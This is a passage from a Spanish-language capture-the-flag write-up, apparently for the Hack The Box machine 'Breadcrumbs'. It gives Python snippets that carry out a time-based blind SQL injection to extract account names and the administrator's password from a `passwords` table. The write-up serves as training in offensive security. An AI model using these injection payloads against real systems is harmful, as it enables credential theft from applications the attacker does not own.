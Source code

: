 > [extract_columns.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/breadcrumbs/process_SQLi/extract_column_names.py)

![316bash_scriptSQLi_columns](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/breadcrumbs/316bash_scriptSQLi_columns.png)

Perfecto, tenemos 4 columnas, enfoquémonos en las columnas `account` y `password` para asi entender de quien es cada password.

> `aeskey` es realmente `aes_key`, me di cuenta relacionandolo con la respuesta normal antes de hacer el SQLi (y pues que me faltaba ese char en el dic).

...

##### Obtenemos la información de la columna <u>account</u>.

👀

```py
...
for acc_num in range(0, 3):
    p4 = log.progress("Account")
    for position in range(1, 16):
        for letter in dic_letters:
            time_now = time.time()

            payload = "?method=select&"
            payload += "username=administrator' and if(substr((SELECT account FROM passwords LIMIT %d,1),%d,1)='%s',sleep(3),1) and '1'='1&" % (acc_num, position, letter)
            payload += "table=passwords"
...
```

> [extract_users.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/breadcrumbs/process_SQLi/extract_users.py)

![316bash_scriptSQLi_acc](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/breadcrumbs/316bash_scriptSQLi_acc.png)

Nice, solo hay un usuario, `administrator`, ahora veamos el contenido del campo `password` relacionado con el usuario `administrator`.

...

##### Obtenemos la información de la columna <u>password</u>.

👀

```py
...
p2 = log.progress("Password administrator")
# Agregamos mas posiciones, quizas la contraseña es larga
for position in range(1, 70):
    for letter in dic_letters:
        time_now = time.time()

        payload = "?method=select&"
        payload += "username=administrator' and if(substr((SELECT password FROM passwords WHERE account='administrator'),%d,1)='%s',sleep(3),1) and '1'='1&" % (position, letter)
        payload += "table=passwords"
...
```
